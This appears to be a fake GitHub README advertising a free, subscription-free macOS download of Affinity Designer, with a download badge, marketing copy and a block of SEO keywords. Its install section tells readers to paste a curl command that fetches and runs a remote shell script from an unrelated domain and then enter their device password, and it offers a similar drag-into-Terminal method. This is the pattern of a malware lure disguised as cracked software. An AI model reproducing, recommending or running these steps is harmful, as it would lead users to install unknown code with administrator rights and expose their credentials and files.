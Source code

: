 <p align="center">
  <img src="https://cdn.jim-nielsen.com/macos/512/affinity-designer-2020-11-18.png?rf=1024" width="320px" alt="Affinity Designer Logo"/>
</p>

<h1 align="center">
  🚀 Affinity Designer – Download for MacOS
</h1>

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/9">
    <img src="https://img.shields.io/badge/%EF%A3%BF%20Download%20for%20MacOS-green?style=for-the-badge&logo=apple&logoColor=white" width="350px" height="45px" alt="Download for macOS"/>
  </a>
</p>

---

## 🖼 Preview

<p align="center">
  <img src="https://affinityspotlight.com/assets/content/mkt/q6s/ggj/affinity-designer-running-on-macos-monterey--article-sm@2x.jpg" width="1360px" alt="Affinity Designer Icon"/>
</p>

<p align="center">
  <img src="https://cdn.serif.com/affinity/img/designer/home/0322/artboards/artboards-designer-041120220926--lg@2x.jpg" alt="Affinity Designer Screenshot"/>
</p>

---

## 💡 About Affinity Designer

**Affinity Designer for Mac** is a high-performance vector and raster design app built natively for macOS. It’s crafted for UI/UX designers, illustrators, and creatives who demand speed, precision, and a flawless user experience. With real-time rendering, native Apple Silicon support, and offline activation, Affinity Designer delivers professional-grade tools without subscriptions or cloud dependency. Designed for flexibility and power, it integrates seamlessly into modern design workflows.

---


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🖥 System Requirements

- **macOS:** 13 Ventura, 14 Sonoma, 15 Sequoia  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **Memory:** Minimum 4 GB RAM  

---

## 🚀 Key Features

- ✏️ Precision vector and pixel editing in one app  
- 🎨 Advanced typography, artboards, and grid systems  
- 🖼 Real-time effects, non-destructive workflows  
- 🍎 Fully native macOS experience with Metal acceleration  
- 🌙 Dark Mode support  
- ⚡ Optimized for Apple Silicon chips  
- 🧰 Offline activation with no subscriptions or login  

---

## 🧩 Why Choose Affinity Designer?

Affinity Designer is built for professionals who want a powerful, subscription-free design tool. Whether you're creating interfaces, icons, illustrations, or complex vector work, Affinity Designer offers unmatched speed and control. It’s perfect for freelance creatives, design teams, and agencies that need efficiency, reliability, and a one-time license model.

---

## 🎯 What You Unlock

- ✅ Full access to all vector, raster, and export tools  
- 🚀 Real-time performance on Apple Silicon  
- 🔒 Offline activation with no account required  
- 🆓 No subscription, login, or cloud services needed  
- 🔁 Seamless workflow with Affinity Photo & Publisher  

---

## 🔍 SEO Keywords

affinity designer, affinity designer mac, affinity designer free download, affinity designer macOS, affinity designer offline activation, vector editor mac, affinity designer no subscription, affinity ui design tool mac, affinity illustrator alternative, affinity designer apple silicon, affinity designer full version mac, affinity designer dark mode, affinity vector tool mac

---
